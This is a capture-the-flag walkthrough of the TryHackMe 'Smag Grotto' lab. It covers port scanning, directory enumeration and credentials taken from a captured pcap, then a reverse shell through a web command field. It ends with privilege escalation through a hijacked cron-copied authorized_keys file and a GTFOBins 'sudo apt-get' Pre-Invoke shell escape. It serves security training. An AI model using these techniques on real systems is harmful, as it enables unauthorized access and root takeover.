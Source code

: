 
[TryHackMe Link](https://tryhackme.com/room/smaggrotto){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```s linenums="1" hl_lines="6 11"
  # Nmap 7.93 scan initiated Thu Mar  2 00:07:03 2023 as: nmap -sC -sV -O -oN nmap.txt 10.10.80.3
    Nmap scan report for 10.10.80.3
    Host is up (0.15s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 74e0e1b405856a15687e16daf2c76bee (RSA)
    |   256 bd4362b9a1865136f8c7dff90f638fa3 (ECDSA)
    |_  256 f9e7da078f10af970b3287c932d71b76 (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Smag
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=3/2%OT=22%CT=1%CU=34695%PV=Y%DS=5%DC=I%G=Y%TM=64002F14
    OS:%P=aarch64-unknown-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=
    OS:8)OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M5
    OS:05ST11NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68D
    OS:F)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S
    OS:+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
    OS:)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%
    OS:A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%
    OS:DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=
    OS:40%CD=S)

    Network Distance: 5 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Thu Mar  2 00:07:32 2023 -- 1 IP address (1 host up) scanned in 29.21 seconds
  ```

## <b>Enumeration</b>

During my assessment, I visited the http service at port 80, which did not surprise me. Later, I attempted to enumerate the hidden directories using **`dirsearch`** and I found the **/mail** folder. 

```s linenums="1" hl_lines="22"
[00:08:44] Starting: 
[00:08:51] 403 -  275B  - /.ht_wsr.txt                                     
[00:08:51] 403 -  275B  - /.htaccess.bak1
[00:08:51] 403 -  275B  - /.htaccess.orig
[00:08:51] 403 -  275B  - /.htaccess.sample
[00:08:51] 403 -  275B  - /.htaccess.save
[00:08:51] 403 -  275B  - /.htaccess_extra
[00:08:51] 403 -  275B  - /.htaccess_sc
[00:08:51] 403 -  275B  - /.htaccessBAK
[00:08:51] 403 -  275B  - /.htaccess_orig
[00:08:51] 403 -  275B  - /.htaccessOLD
[00:08:51] 403 -  275B  - /.htaccessOLD2
[00:08:51] 403 -  275B  - /.htm                                            
[00:08:51] 403 -  275B  - /.html
[00:08:51] 403 -  275B  - /.htpasswds
[00:08:51] 403 -  275B  - /.htpasswd_test
[00:08:51] 403 -  275B  - /.httr-oauth
[00:08:53] 403 -  275B  - /.php                                            
[00:08:53] 403 -  275B  - /.php3                                           
[00:09:24] 200 -  402B  - /index.php                                        
[00:09:24] 200 -  402B  - /index.php/login/                                 
[00:09:27] 301 -  307B  - /mail  ->  http://10.10.80.3/mail/                
[00:09:27] 200 -    2KB - /mail/                                            
[00:09:37] 403 -  275B  - /server-status                                    
[00:09:37] 403 -  275B  - /server-status/
```

 Upon visiting the site, I received a pcap file and some development progress information. 

<img id="image1" />

<img id="image2" />

While analyzing the pcap file, I discovered the domain for the development site and obtained a username and password for login.

```bash linenums="1" hl_lines="5 10"
strings Captured.pcap          
<eU@
4eV@
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded
username=helpdesk&password=[REDACTED]
HTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
4eX@
4eY@
4eZ@
```

Subsequently, when accessing the dev site, I was able to locate a login website where I utilized the credentials obtained in the previous step. 

<img id="image3" />

## <b>Initial Access</b>

It redirected to another page and provided me a text field to run any commands hopefully linux ones. However, despite trying various commands, I was unable to display any data. Realizing that it was a blind shot, I hosted a reverse shell from my side and attempted to access it using the wget command. Unfortunately, this approach also did not work. Later, I leveraged the reverse shell netcat command to connect back to the system, which allowed me to gain initial access. 

<img id="image4" />

The user account associated with this access was www-data. 

<img id="image5" />

## <b>Privilege Escalation</b>

### <b>Gaining user access (Jake)</b>

While enumerating the system, I discovered a CRON job that ran every minute with the command:

`/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys`

<img id="image6" />

I found a public ssh key present in the **authorized_keys** file, and as I had write permissions, I was eager to impersonate it. To do so, I created a SSH key pair with public and private keys, and overwrote my public key to **`/opt/.backups/jake_id_rsa.pub.backup`**, which saved to **`/home/jake/.ssh/authorized_keys`**.

<img id="image7" />

!!! abstract "Note"
    <span>**authorized_keys** contains a list of public keys that are authorized to access a user's account on a remote system, and it does not explicitly require passwords, but instead requires the private key of the public key present in that file.</span>

Since I possessed my private key, I logged in as Jake using the following command and found the user flag.

```s
ssh -i ~/.ssh/id_rsa jake@10.10.80.3
```

<img id="image8" />

!!! abstract "Note"
    <span>To pass a private key when connecting to a remote system, the file must have **600** permission to carry out the action, ensuring that only the user has access to read and write, and no one else.</span>


### <b>Gaining root access</b>

Once I had gained access to Jake's account, I made it to escalate privileges to root. My first step was to search for any sudo powers that Jake possessed. 

<img id="image9" />

I quickly searched the database of [gtfobins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) where you can find different commands to bypass local security restrictions.
Using the following command, I successufully grabbed the root flag.

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

<img id="image10" />

<script>

// JSON object
const data = {
    "desc": "Follow the yellow brick road. Deploy the machine and get root privileges.",
    "ip":  "10.10.80.3",
    "ports": "22/tcp,ssh,OpenSSH 7.2p2 Ubuntu 4ubuntu2.8;80/tcp,http,Apache httpd 2.4.18",
    "difficulty":"easy",
    "id": "10"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>
